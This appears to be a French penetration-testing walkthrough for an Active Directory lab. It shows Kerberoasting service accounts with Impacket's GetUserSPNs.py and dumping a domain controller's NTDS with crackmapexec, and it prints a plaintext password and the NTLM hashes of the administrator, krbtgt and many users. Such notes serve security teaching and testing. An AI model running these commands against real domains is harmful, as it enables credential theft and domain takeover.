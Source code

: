 
## Kerberoasting TGT
Si vous compromettez un utilisateur qui possède un ticket kerberos valide (TGT), vous pouvez demander un ou plusieurs tickets de service TGS (Ticket-Granting Service) pour n'importe quel SPN (Service Principal Name) à partir d'un contrôleur de domaine. 

```
└─# GetUserSPNs.py medic.ex/pixis:P4ssw0rd -dc-ip 212.129.29.186
Impacket v0.11.0 - Copyright 2023 Fortra

ServicePrincipalName  Name     MemberOf  PasswordLastSet             LastLogon  Delegation 
--------------------  -------  --------  --------------------------  ---------  ----------
SQL/SQL01             svc_sql            2022-07-02 18:00:09.199337  <never>               
WWW/INTRANET01        svc                2022-07-02 18:00:09.308719  <never>      
```
Note : Si vous obtenez un message "Kerberos SessionError : KRB_AP_ERR_SKEW(Clock skew too great)", c'est probablement parce que la date et l'heure de la machine d'attaque ne sont pas synchronisées avec le serveur Kerberos.



## Dump & Pass-The-Hash
```
└─# crackmapexec smb 212.129.29.186 -u pixis -p "P4ssw0rd" --ntds  
SMB         212.129.29.186  445    DC01             [*] Windows 10.0 Build 20348 x64 (name:DC01) (domain:medic.ex) (signing:False) (SMBv1:False)
SMB         212.129.29.186  445    DC01             [+] medic.ex\pixis:P4ssw0rd (Pwn3d!)
SMB         212.129.29.186  445    DC01             [+] Dumping the NTDS, this could take a while so go grab a redbull...
SMB         212.129.29.186  445    DC01             Administrateur:500:aad3b435b51404eeaad3b435b51404ee:e390e451a30390791e9ad7cdb65a7d1c:::
SMB         212.129.29.186  445    DC01             Invité:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         212.129.29.186  445    DC01             krbtgt:502:aad3b435b51404eeaad3b435b51404ee:012822d7bc16e785ca053eb47b7d50f2:::
SMB         212.129.29.186  445    DC01             medic.ex\pixis:1254:aad3b435b51404eeaad3b435b51404ee:ac1dbef8523bafece1428e067c1b114f:::
SMB         212.129.29.186  445    DC01             llemoine\llemoine:1255:aad3b435b51404eeaad3b435b51404ee:61c990ebd39bad396abe230c5cf39c79:::
SMB         212.129.29.186  445    DC01             lweiss\lweiss:1256:aad3b435b51404eeaad3b435b51404ee:3ed193aca5aae5f5c0e2c5cb9a2cd802:::
SMB         212.129.29.186  445    DC01             ccoste\ccoste:1257:aad3b435b51404eeaad3b435b51404ee:e686605055f9513f11c882344070b167:::
SMB         212.129.29.186  445    DC01             atessier\atessier:1258:aad3b435b51404eeaad3b435b51404ee:5d83ff768bea7bc9501935427fdcf495:::
SMB         212.129.29.186  445    DC01             cguyon\cguyon:1259:aad3b435b51404eeaad3b435b51404ee:a4ef7f04773627fbe3b123340ca1dbeb:::
SMB         212.129.29.186  445    DC01             cchartier\cchartier:1260:aad3b435b51404eeaad3b435b51404ee:28e7a1af7435bbe4f102ee62052405d7:::
SMB         212.129.29.186  445    DC01             mdavid\mdavid:1261:aad3b435b51404eeaad3b435b51404ee:d522d25403210fcfe70ddd6b8b6e5f57:::
SMB         212.129.29.186  445    DC01             proux\proux:1262:aad3b435b51404eeaad3b435b51404ee:5274068cb4503e1a0b612db31ac9dcaa:::
SMB         212.129.29.186  445    DC01             agauthier\agauthier:1263:aad3b435b51404eeaad3b435b51404ee:0b3c500f4ed6644045bdacceb9458b3e:::
SMB         212.129.29.186  445    DC01             jbertrand\jbertrand:1264:aad3b435b51404eeaad3b435b51404ee:06ee526807869883fb1e4e0227e9c341:::
SMB         212.129.29.186  445    DC01             mlebreton\mlebreton:1265:aad3b435b51404eeaad3b435b51404ee:a38ab3760543bf291caea84a50f2e028:::
SMB         212.129.29.186  445    DC01             pdevaux\pdevaux:1266:aad3b435b51404eeaad3b435b51404ee:6a20d2cc971e517005732d238f5b6fbb:::
SMB         212.129.29.186  445    DC01             sdupuis\sdupuis:1267:aad3b435b51404eeaad3b435b51404ee:ab75dc87eb37a401d262750667022301:::

```
